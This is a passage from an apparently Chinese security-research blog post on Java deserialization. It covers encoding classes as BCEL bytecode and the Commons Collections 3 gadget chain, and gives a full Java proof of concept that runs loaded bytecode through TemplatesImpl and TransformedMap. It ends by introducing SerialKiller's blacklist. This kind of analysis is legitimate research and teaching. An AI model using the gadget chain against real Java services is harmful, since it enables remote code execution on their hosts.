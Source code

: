 通过 BCEL 提供的两个类 `Repository` 和 `Utility` 来利用：用于将一个 Java Class 先转换成原生字节码，当然这里也可以直接使用 javac 命令来编译 java 文件生成字节码；Utility 用于将原生的字节码转换成 BCEL 格式的字节码：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```java<br>import com.sun.org.apache.bcel.internal.Repository;<br>import com.sun.org.apache.bcel.internal.classfile.Utility;<br>import com.sun.org.apache.bcel.internal.classfile.JavaClass;<br><br>public class BCELdemo {<br>    public static void main(String[] args) throws Exception {<br>        JavaClass cls = Repository.lookupClass(evil.Hello.class);<br>        String code = Utility.encode(cls.getBytes(), true);<br>        System.out.println(code);<br>    }<br>}<br>``` |

而 `BCEL ClassLoader` 用于加载这串特殊的 `bytecode`，并可以执行其中的代码:

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108310956413.png-water_print](assets/1699411658-686df30136add2d7f79ecf4ae8ea2723.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108310956413.png-water_print")

## [](#2-commonscollections-3-gadget-%E5%88%86%E6%9E%90)2 CommonsCollections 3 Gadget 分析

在 CC1 中，利用 TransformedMap 来执行任意方法，上一节中提到过，利用 TemplatesImpl 执行字节码，可以将两者合并，构造出如下 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>``` | ```java<br>package com.geekby.cc3test;<br><br><br>import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import java.lang.reflect.Field;<br>import java.nio.file.Files;<br>import java.nio.file.Paths;<br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class Main {<br>    public static void main(String[] args) throws Exception {<br>        byte[] code = Files.readAllBytes(Paths.get("HelloTemppaltesImpl.class"));<br><br>        TemplatesImpl obj = new TemplatesImpl();<br>        setFieldValue(obj, "_bytecodes", new byte[][] {code});<br>        setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br><br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(obj),<br>                new InvokerTransformer("newTransformer", null, null)<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(transformers);<br><br>        Map innerMap = new HashMap();<br>        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);<br>        outerMap.put("test", "poc");<br><br>    }<br><br>    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {<br>        Field field = obj.getClass().getDeclaredField(fieldName);<br>        field.setAccessible(true);<br>        field.set(obj, value);<br>    }<br>}<br>``` |

但是，在 ysoserial 中的 CC3 中，并没有用到 `InvokerTransformer`。

SerialKiller 是一个 Java 反序列化过滤器，可以通过黑名单与白名单的方式来限制反序列化时允许通过的类。在其发布的第一个版本代码中，可以看到其给出了最初的黑名单：

